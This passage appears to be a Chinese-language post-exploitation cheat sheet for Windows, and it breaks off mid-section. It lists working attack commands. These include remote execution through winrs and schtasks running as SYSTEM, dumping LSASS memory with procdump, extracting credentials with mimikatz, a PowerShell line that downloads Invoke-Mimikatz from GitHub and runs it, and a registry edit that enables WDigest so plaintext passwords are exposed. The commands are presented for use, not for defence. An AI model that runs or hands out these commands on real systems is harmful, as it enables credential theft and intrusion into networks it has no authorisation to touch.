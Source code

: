 Keylogger (tip: 可以把管理工具，如 navicat, putty, SecureCRT, PLSQL 设置记住密码) --redrain ixkeylog

linux>=2.63 推荐 --redrain

### 远程命令执行

>   at\schtasks\psexec\wmic\sc\ps

2012 r2 起,默认端口 5985,系统自带远程管理 winrs

>   winrs -r:192.168.1.100 -u:administrator -p:pwd ipconfig

这里 schtasks 用着很舒服，

>   schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1  每分运行1次

如果程序有参数用引号

>   "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp"

``/RU`` 可以以 system 启动，例如

>   schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM

>   schtasks /create /tn mytask /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2

>   schtasks /Query /TN mytask

>   net time

>   schtasks /Query /TN mytask

>   schtasks /Delete /TN mytask /F

### mimikatz + procdump 获得内存 hash

如果服务器是 64 位，要把 Mimikatz 进程迁移到一个 64 位的程序进程中，才能查看 64 位系统密码明文。32 位任意

运行

>   procdump.exe -accepteula -ma lsass.exe lsass.dmp(管理权限)

后 lsass.dmp 放到 mimikatz.exe 同目录，运行以下命令

>   mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"

导出当前

>   mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"

>   powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

Windows Server 2012, 部分 Windows Server 2008 默认无法使用 mimikatz 导出明文口令

解决方法：启用 Wdigest Auth, cmd:

>   reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

powershell:
